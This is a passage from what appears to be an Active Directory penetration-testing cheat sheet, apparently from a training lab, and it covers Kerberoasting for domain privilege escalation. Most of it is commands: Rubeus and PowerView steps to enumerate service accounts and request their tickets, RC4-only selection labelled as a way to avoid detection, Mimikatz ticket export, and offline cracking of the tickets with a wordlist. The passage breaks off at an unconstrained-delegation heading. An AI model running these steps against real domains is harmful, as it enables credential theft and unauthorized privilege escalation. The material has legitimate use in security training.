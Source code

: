 # VI. Domain Privilege Escalation

### Kerberoast

##### Methodology

>   1.   Find service accounts.
>   2.   Request for their TGS.
>   3.   Check if kerberoastable and then get their hashes.
>   4.   Try to crack their hashes to get the service account’s password.

##### Find user accounts as Service accounts

```powershell
# AD Module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName

# PowerView
Get-DomainUser -SPN

# Rubeus
# List Kerberoast stats
Rubeus.exe kerberoast /stats

# Request TGS
Rubeus.exe kerberoast /user:serviceaccount /simple

# Look for kerberoastable accounts that only supports RC4_HMAC to avoid detections
Rubeus.exe kerberoast /stats /rc4opsec
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec

# Kerberoast all possible accounts
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

##### Crack ticket using `tgsrepcrack`

```powershell
# Check if the ticket has been granted
klist.exe

# Export all tickets using Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack the Service account password
python.exe .\tgsrepcrack.py .\10k-worst-passwords.txt
'.\2-40a10000-studentuser@USSvc~serviceaccount￾US.TECHCORP.LOCAL.kirbi
```

### Unconstrained Delegation

##### PowerView
